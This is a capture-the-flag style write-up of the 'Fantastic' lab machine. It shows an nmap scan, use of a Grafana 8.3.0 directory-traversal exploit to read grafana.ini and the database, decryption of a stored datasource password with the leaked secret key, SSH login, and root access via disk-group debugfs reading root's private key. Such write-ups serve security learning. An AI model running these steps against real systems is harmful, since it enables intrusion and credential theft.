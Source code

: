 # Fantastic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.208.181                       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 16:49 +08
Warning: 192.168.208.181 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.208.181
Host is up (0.18s latency).
Not shown: 65412 closed tcp ports (conn-refused), 121 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

### Grafana LFI + Decrypt Password -> SSH Creds

Port 3000 was running Grafana:

<figure><img src="../../../.gitbook/assets/image (2327).png" alt=""><figcaption></figcaption></figure>

This particular version had an LFI exploit:

```
$ searchsploit grafana 8.3.0 
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Rea | multiple/webapps/50581.py
----------------------------------------------------------- ---------------------------------
```

I verified that it works:

<figure><img src="../../../.gitbook/assets/image (2306).png" alt=""><figcaption></figcaption></figure>

Since we don't have Grafana credentials, let's try to read it at `/etc/grafana/grafana.ini`. I found this within the configuration files:

```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
;admin_password = admin

# used for signing
;secret_key = SW2YcwTIb9zpOOhoPsMm

# Path to where grafana can store temp files, sessions, and the sqlite3 db (if that is used)
;data = /var/lib/grafana

# For "sqlite3" only, path relative to data_path setting
;path = grafana.db
```

We can attempt to read the Grafana database from that folder. I copied the output to a file, and checked for instances of `admin`:

<figure><img src="../../../.gitbook/assets/image (353).png" alt=""><figcaption></figcaption></figure>

I also found this within it:

{% code overflow="wrap" %}
```
{"basicAuthPassword":"anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w=="}HkdQ8Ganz
```
{% endcode %}

This was an encoded password. Googling how to decrypt this led me to another Github repository:

{% embed url="https://github.com/jas502n/Grafana-CVE-2021-43798/tree/main" %}

To abuse this, replace the secret Key and encrypted password within the script:

```
var grafanaIni_secretKey = "SW2YcwTIb9zpOOhoPsMm"
var dataSourcePassword = "anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w=="
```

Afterwards, make sure that `go` has the `golang.org/x/crypto/pbkdf2@latest` module installed. This would let us decrypt the password:

<figure><img src="../../../.gitbook/assets/image (2332).png" alt=""><figcaption></figcaption></figure>

With the password, I tested Grafana and SSH, and it worked for the `sysadmin` user:

<figure><img src="../../../.gitbook/assets/image (2313).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Disk Group -> Read SSH Key

We are part of the `disk` group, meaning we actually have full access to the file system through `debugfs`. First, let's check the different devices available:

```
sysadmin@fanatastic:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            445M     0  445M   0% /dev
tmpfs            98M  1.1M   97M   2% /run
/dev/sda2       9.8G  5.7G  3.7G  61% /
tmpfs           489M     0  489M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           489M     0  489M   0% /sys/fs/cgroup
/dev/loop0       71M   71M     0 100% /snap/lxd/21029
/dev/loop1       56M   56M     0 100% /snap/core18/2284
/dev/loop2       62M   62M     0 100% /snap/core20/1328
/dev/loop3       68M   68M     0 100% /snap/lxd/21835
/dev/loop4       56M   56M     0 100% /snap/core18/2128
/dev/loop5       33M   33M     0 100% /snap/snapd/12883
/dev/loop6       44M   44M     0 100% /snap/snapd/14549
tmpfs            98M     0   98M   0% /run/user/1001
```

`/dev/sda2` is obviously the main file system. We can then grab the `root` user's private SSH key:

<figure><img src="../../../.gitbook/assets/image (468).png" alt=""><figcaption></figcaption></figure>

Then, we can `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (2305).png" alt=""><figcaption></figcaption></figure>
